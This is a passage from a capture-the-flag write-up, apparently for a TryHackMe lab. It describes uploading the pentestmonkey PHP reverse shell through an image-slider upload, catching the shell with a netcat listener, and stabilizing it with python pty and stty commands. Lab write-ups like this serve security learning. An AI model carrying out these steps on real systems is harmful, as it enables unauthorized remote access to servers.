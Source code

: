 ![](https://i.imgur.com/59NR64f.png)


Then i decided to upload the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) php reverse shell which will give us a reverse shell.

>
> Before uploadding a reverse shell payload from pentestmonkey make sure you are listenning with
> netcat through the following


-- -

```
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
```
-- -

After uploading it it will prompt the following message  

![](https://i.imgur.com/G76WtKR.png)

Then for us to get the shell we have to make sure that the php reverse shell payload is executing and this can be done by know/identify where excatly the script is uploaded. On the image above it seems the slider has been added to gallery and in the dir bruteforcing we got `gallery.php` so we will go to that page and refresh it.

![](https://i.imgur.com/09IOZ9e.png)

And on our netcat we have a shell

![](https://i.imgur.com/yIEkAbn.png)

**We are in.**  

## Stabilize shell.
-- -

Now we have shell but it is not stable, meaning if we press ctr+c the shell will disappear and here are the steps to stabilize it.

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
batman@owaspQuiz:/$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
batman@owaspQuiz:/$ export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'export TERM=xterm-256color
batman@owaspQuiz:/$
batman@owaspQuiz:/$ ^Z
zsh: suspended nc -nvlp 1234
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ stty raw -echo;fg;reset
[1] + continued nc -nvlp 1234
batman@owaspQuiz:/$
```
